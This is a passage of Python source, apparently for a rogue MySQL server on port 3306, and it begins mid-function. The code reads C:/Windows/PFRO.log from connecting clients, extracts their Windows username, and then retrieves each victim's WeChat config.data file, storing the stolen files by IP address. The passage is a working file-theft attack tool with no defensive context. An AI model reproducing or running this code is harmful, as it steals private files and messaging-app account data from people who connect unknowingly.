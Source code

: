 ```
                        with open(logpath + "/PFRO.log", "w") as f:
                            f.write(content)
                            f.close()
                        return True
                    else:
                        with open(logpath + "/" + filename.replace("/", "_").replace(":", ""), "w") as f:
                            f.write(content)
                            f.close()
                        return True
                else:
                    return False
            except Exception as e:
                print (e)
    except Exception as e:
        print (e)

def run():
    port = 3306
    sv = socket.socket()
    sv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sv.bind(("",port))
    sv.listen(100)

    while True:
        conn, address = sv.accept()
        logpath = os.path.abspath('.') + "/log/" + address[0] + '/PFRO.log'
        if os.path.exists(logpath):
            with open(logpath, 'r')as f:
                content = f.read()
            f.close()
            content = content.replace('\n','').replace('\r','').replace(' ','').replace('\t','').replace('\00','')
            try:
                res = re.findall(r'Users\\(.*)\\', content)[0]
                username = res.split('\\')[0]
                line = 'C:/Users/' + username + '/Documents/WeChat Files/All Users/config/config.data'              
                if not os.path.exists(os.path.abspath('.') + "/log/" + address[0]+'/'+line.replace("/", "_").replace(":", "")):
                    res = mysql_get_file_content(line,conn,address)
                    if res:
                        print ("Read Success! ---&gt; " + line)
                    else:
                        print ("Not Found~ ---&gt; " + line)
                else:
                    conn.close()
            except Exception as e:
                print(e)
        else:
            line = 'C:/Windows/PFRO.log'
            res = mysql_get_file_content(line,conn,address)
            if res:
                print ("Read Success! ---&gt; " + line)
            else:
                print ("Not Found~ ---&gt; " + line)

```
